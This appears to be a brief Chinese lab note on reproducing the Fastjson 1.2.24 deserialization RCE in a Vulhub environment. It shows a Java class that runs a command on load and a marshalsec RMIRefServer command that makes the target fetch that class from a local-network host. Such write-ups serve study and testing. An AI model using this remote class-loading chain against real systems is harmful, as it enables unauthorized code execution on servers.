









[https://vulhub.org/#/environments/fastjson/1.2.24-rce/](https://vulhub.org/#/environments/fastjson/1.2.24-rce/)

## 玩玩这个漏洞




## 借助项目

 https://github.com/mbechler/marshalsec.git



### 获取Jar



### 编译成功




### Demo.class


```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class Demo {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```


### 运行rmi程序

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.31.241:1234/#Demo" 9999`







### 一定要注意版本问题
java 版本和 javac 版本一定要一致，不然会出现问题



应该使用第二个javac